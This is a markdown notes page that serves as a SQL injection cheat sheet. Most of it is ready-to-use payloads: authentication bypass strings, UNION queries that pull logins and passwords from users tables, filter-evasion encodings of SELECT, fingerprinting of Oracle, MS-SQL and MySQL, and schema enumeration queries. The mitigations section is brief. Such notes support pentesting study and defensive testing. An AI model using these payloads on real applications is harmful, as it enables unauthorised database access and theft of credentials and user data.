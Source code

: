 ```yaml
---
layout: page
title:  "SQL injections"
permalink: "sql-injections.html"
tags: [security, injections, web]
summary: ""
---
```

## Simple injections
* `'`, `''` (SQL-escaped single quote)
* `test' OR 1=1 --`
* `UNION SELECT login, password FROM users #`
* Select the line using **LIMIT**: `UNION SELECT login, password FROM users LIMIT 1,1 #`
* Balancing the quotes: `test' OR 'a' ='a`
* Wildxard character: `%``
* Numerics: `3-1`, `67-ASCII('A')`, `51-ASCII(1)` (implicit numeric to string cast)
* Test if injection in **SELECT**: input `1` results in `SELECT 1,..` so first column is filled with 1s
* Return number of lines: `aa' UNION SELECT count(*), users.password FROM users; --`
* `' UNION SELECT users.password, users.password FROM users LIMIT 1 OFFSET 1; --`


## Mitigations
* PHP `htmlentities()`
* PHP `addslashes()`. Can be bypassed if another encoding is used.



## Strategies
* Get the version string of the database
* Use string concatenation techniques to produce legitimate input
* MySQL ~ Sybase
* Blind injection: insert data into a user field, such as a profile name
* Blind injection: best to look for interesting columns names rather than tables (use `LIKE '%pass%'` for password-related columns)
* Second order injections



## Tactics
* URL-encode HTTP-related characters
* Oracle globally accessible table: `DUAL`. Useful to complete **SELECT** statements
* Return strings through numeric columns: `ASCII` and `SUBSTRING` functions to return one character at a time

### SELECT filtering bypasses
```
SeLeCt
%00SELECT
SESELECTLECT
%53%45%4C%45%43%54
%2553%2545%254C%2545%2543%2554
SE/*MySQL only*/LECT
```

### Comments as spaces
* `SELECT/*foo*/password/*bar*/FROM/*foobar*/users`
* MySQL: comments inside keywords `SE/*damn!*/LECT/*foo*/password/*bar*/FROM/*foobar*/users`

### Database fingerprinting
* Oracle: `BITAND(1,1)-BITAND(1,1)`
* MS-SQL: `@@PACKED_RECEIVED-@@PACKED_RECEIVED`
* MySQL: `CONNECTION_ID()-CONNECTION_ID()`
* MySQL version fingerprinting: inline comment `/*!32302 and 1=0*/` ignored if database version doesn't match `32302` version string. Else, interpreted as `and 1=0`
* Comments:
  * MS-SQL, MySQL (with a space after double hyphens), Oracle: `--`
  * `#`
  * `;`
* MS-SQL and MySQL version string: `' UNION SELECT @@version, NULL-- `
* Oracle version string: `' UNION SELECT banner, NULL, NULL FROM v$version--`


### String
* Concatenation useful to return multiple results when only one **VARCHAR** columns found
* Oracle concatenation: `'||'test`
* MS-SQL concatenation: `'+'test`
* MySQL concatenation: `' 'test` (mind the space)
* Build Oracle string: `CHR(97)||CHR(98)='ab'`
* Build MS-SQL string: `CHAR(97)+CHAR(98)='ab'`


### Blind injections
* Table structure with MS-SQL, MySQL, SQLite and Postgresql: `' UNION SELECT table_name,column_name FROM information_schema.columns--`
* Table structure with MS-SQL: `SELECT table_name+':'+column_name FROM information_schema.columns--`
* Table structure with MySQL: `SELECT CONCAT(table_name, ':', column_name) FROM information_schema.columns--`
* Table structure with SQLite: `' UNION SELECT name, sql FROM sqlite_master;`
* Table structure with Oracle:
  * `' UNION SELECT table_name,column_name FROM all_tab_columns;`
  * `' UNION SELECT table_name,column_name FROM user_tab_columns;`
  * `SELECT table_name||':'||column_name FROM all_tab_columns;`
* Number of columns:
  * `ORDER BY 1`, `ORDER BY 2` ...
  * `UNION SELECT NULL--`, `UNION SELECT NULL, NULL--` ... Should be checked by reviewing raw response. Add `FROM DUAL` if Oracle.
* Discovering string columns: `SELECT 'a', NULL, NULL`, `SELECT NULL, 'a', NULL`, `SELECT NULL, NULL, 'a'`
* Name of columns: `ORDER BY "column_name"`
* Length of a string: TODO
* Number of values for **INSERT** statements: iteratively add fields
  ```
  test')--
  test', 1)-- Implicitly casted to a string in most DBMS
  test', 1, 2000)--  Implicitly casted to a date in most DBMS
  ...
  ```
* **SELECT** statement with unknown column type: `SELECT NULL, password`


## Resources and references
* [SQL cheatsheet](sql.html)
